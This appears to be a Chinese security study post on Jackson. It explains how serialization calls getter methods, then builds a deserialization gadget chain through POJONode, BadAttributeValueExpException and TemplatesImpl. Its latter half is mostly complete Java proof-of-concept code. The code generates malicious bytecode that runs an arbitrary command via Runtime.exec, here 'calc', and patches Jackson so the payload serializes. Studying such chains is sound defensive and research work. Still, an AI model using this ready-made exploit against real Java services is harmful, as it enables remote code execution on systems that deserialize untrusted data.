#  前言

之前学习了fastjson库的反序列化和原生反序列化触发任意类的getter方法，而jackson作为与之相似的另一个JSON库，也被发掘出存在相应的问题

# 关于jackson

在 **Java** 里，**Jackson** 是一个非常常用的 **JSON 处理库**，由 FasterXML 开发。主要作用是将java对象转化为JSON对象（序列化）以及将JSON对象转化为java对象（反序列化）

## 常用模块

- **jackson-core**：提供核心的流式 JSON 读写 API。
- **jackson-databind**：最常用，提供 `ObjectMapper`，支持对象与 JSON 的互转。
- **jackson-annotations**：提供注解支持，比如 `@JsonProperty`、`@JsonIgnore`。
- **jackson-datatype-* **：支持 Java 8 的时间类型、JodaTime、Guava 等扩展。

## 常用方法

Jackson提供了`ObjectMapper.writeValueAsString()`和`ObjectMapper.readValue()`两个方法来实现序列化和反序列化的功能。

- `ObjectMapper.writeValueAsString()`———序列化
- `ObjectMapper.readValue()`————————反序列化

## 依赖

```xml
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.25.0-GA</version>
</dependency>
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.13.3</version>
</dependency>
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-core</artifactId>
    <version>2.13.3</version>
</dependency>
<dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-annotations</artifactId>
    <version>2.13.3</version>
</dependency>
```

然后我们来看看Jackson的基本用法

## 举个栗子

先写个User类

```java
package SerializeChains.JacksonSer;

public class User {
    private String username;
    private String password;
    public User(){
        System.out.println("调用了无参构造方法");
    }
    
    public User(String username, String password){
        System.out.println("调用了有参构造方法");
        this.username = username;
        this.password = password;
    }

    public String getUsername() {
        System.out.println("调用了 getUsername 方法");
        return username;
    }
    public void setUsername(String username) {
        System.out.println("调用了 setUsername 方法");
        this.username = username;
    }
    
    public String getPassword(){
        System.out.println("调用了 getPassword 方法");
        return password;
    }
    
    public void setPassword(String password) {
        System.out.println("调用了 setPassword 方法");
        this.password = password;
    }
}

```

然后写个Test测试类

```java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.ObjectMapper;

public class Test {
    public static void main(String[] args) throws Exception {
        User user = new User("wanth3f1ag","123456");
        ObjectMapper mapper = new ObjectMapper();
        String json = mapper.writeValueAsString(user);
        System.out.println(json);
        User user2 = mapper.readValue(json, User.class);
    }
}
```



可以看到在序列化的时候触发了getter方法和有参构造方法，在反序列化的时候触发了setter方法和无参构造方法

老规矩，看看序列化是如何触发getter的

## Jackson的序列化如何触发getter

在writeValueAsString行代码处打上断点进行调试



跟进的过程就不需要看了

函数调用栈大致是这样的



然后我们看几个关键的函数

com.fasterxml.jackson.databind.ser.BeanSerializer#serialize方法



`_objectIdWriter`是用于标记对象的处理ID，如果同一个对象在 JSON 中出现多次，可以用 `"id"` 引用，而不是重复展开整个对象。

跟进writeStartObject函数看看

```java
    public void writeStartObject(Object forValue) throws IOException {
        this._verifyValueWrite("start an object");
        JsonWriteContext ctxt = this._writeContext.createChildObjectContext(forValue);
        this._writeContext = ctxt;
        if (this._cfgPrettyPrinter != null) {
            this._cfgPrettyPrinter.writeStartObject(this);
        } else {
            if (this._outputTail >= this._outputEnd) {
                this._flushBuffer();
            }

            this._outputBuffer[this._outputTail++] = '{';
        }

    }
```

writeStartObject函数主要是写入`{`字符并维护上下文的

返回serialize

```java
            if (this._propertyFilterId != null) {
                this.serializeFieldsFiltered(bean, gen, provider);
            } else {
                this.serializeFields(bean, gen, provider);
            }
```

根据是否有过滤器调用serializeFieldsFiltered或serializeFields，serializeFieldsFiltered内部会检查每个字段是否允许写入 JSON，如果不允许就跳过。没有过滤器的化默认序列化所有字段

最后是调用writeEndObject方法写入`}`字符

在com.fasterxml.jackson.databind.ser.std.BeanSerializerBase#serializeFields中



跟进serializeAsField方法



```java
Object value = this._accessorMethod == null ? this._field.get(bean) : this._accessorMethod.invoke(bean, (Object[])null);
```

`_accessorMethod` 通常是 `java.lang.reflect.Method` 类型，用于表示某个 getter 方法。如果 `_accessorMethod` 是 `null`，就说明没有可用的 getter 方法，需要直接访问字段 `_field`。如果 `_accessorMethod` 不为 `null`，说明可以通过 getter 方法来访问属性，也就是`his._accessorMethod.invoke(bean, (Object[])null);`去触发

也就是这里会调用getter方法，如果继续跟进就会跳转到getter方法中



# 链子分析

## TemplatesImpl链

既然是writeValueAsString方法能触发任意getter方法，那我们看看哪里有调用到writeValueAsString

最经典的getter就是`TemplatesImpl.getOutputProperties`方法。

### POJONode#toString

看到com.fasterxml.jackson.databind.node.BaseJsonNode#toString方法



跟进com.fasterxml.jackson.databind.node.InternalNodeMapper#nodeToString方法



这不就是刚刚序列化用的writeValueAsString方法吗？

但是因为BaseJsonNode是抽象类，所以我们需要找一个子类并且这个子类并没有重写toString方法



看到ValueNode类，但是也是抽象类，继续往前回溯

最后找到POJONode类

该类的继承关系是：

```java
POJONode -> ValueNode -> BaseJsonNode
```

然后我们来找找哪里能调用到toString方法，这就又可以用原生链BadAttributeValueExpException触发toString了

简单写一下POC

```java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Poc1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();

        //创建一个POJONode对象并传入恶意templates
        POJONode pojoNode = new POJONode(templates);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);


        //序列化和反序列化
        serialize(badAttributeValueExpException);
        unserialize("jacksonSerialize01.txt");
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        //defineTransletClasses()方法中的问题：修改_bytecodes的值为恶意类字节码
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        byte[] Foocode = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\Foo.class"));
        byte[][] codes = {code, Foocode};

        setFieldValue(templates, "_bytecodes", codes);
        //getTransletInstance()方法中的问题：反射改变类的属性_name
        setFieldValue(templates,"_name","a");
        //反射改变类的属性_tfactoury
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("jacksonSerialize01.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

优化一下，用infer师傅的函数写一个命令执行的class

```java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class Poc1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();

        //创建一个POJONode对象并传入恶意templates
        POJONode pojoNode = new POJONode(templates);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);


        //序列化和反序列化
        serialize(badAttributeValueExpException);
        unserialize("jacksonSerialize01.txt");
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        byte[] bytes = getshortclass("calc");
        byte[][] codes = {bytes};

        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("jacksonSerialize01.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

    //infer师傅的class，用于生成恶意命令执行class字节码
    public static byte[] getshortclass(String cmd) throws CannotCompileException, IOException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        return bytes;
    }
}
```



但是调试之后发现这计算器并非是反序列化的时候弹的而是在序列化的时候

### 出现报错了？

在报错中发现

```java
Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])
```



这是jackson在序列化java对象的时候尝试序列化 `TemplatesImpl` 的 `outputProperties` 字段时出现 **`NullPointerException`**

空指针错误

看一下报错StackTrace

```java
Exception in thread "main" java.lang.IllegalArgumentException: Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])
	at com.fasterxml.jackson.databind.node.NodeSerialization.from(NodeSerialization.java:40)
	at com.fasterxml.jackson.databind.node.BaseJsonNode.writeReplace(BaseJsonNode.java:28)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:497)
	at java.io.ObjectStreamClass.invokeWriteReplace(ObjectStreamClass.java:1118)
	at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1136)
```

意思就是在序列化POJONode的时候内部的Bean出现了空指针异常，我们跟过去看一下

在writeObject0函数中



会检查序列化的对象中是否有invokeWriteReplace方法，如果有的话就调用对象的invokeWriteReplace方法



然后就来到BaseJsonNode#writeReplace方法

```java
    Object writeReplace() {
        return NodeSerialization.from(this);
    }
```



进入from方法后就会抛出报错

那我们尝试手动把这个方法删除，让序列化的流程恢复正常

```java
public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
    CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
    CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
    ctClass.removeMethod(writeReplace);
    ctClass.toClass();
}
```

### 最终POC1

```java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class Poc1 {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();

        //创建一个POJONode对象并传入恶意templates
        POJONode pojoNode = new POJONode(templates);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",pojoNode);


        //序列化和反序列化
        serialize(badAttributeValueExpException);
        unserialize("jacksonSerialize01.txt");
    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        byte[] bytes = getshortclass("calc");
        byte[][] codes = {bytes};

        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("jacksonSerialize01.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

    //infer师傅的class，用于生成恶意命令执行class字节码
    public static byte[] getshortclass(String cmd) throws CannotCompileException, IOException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        return bytes;
    }
}
```

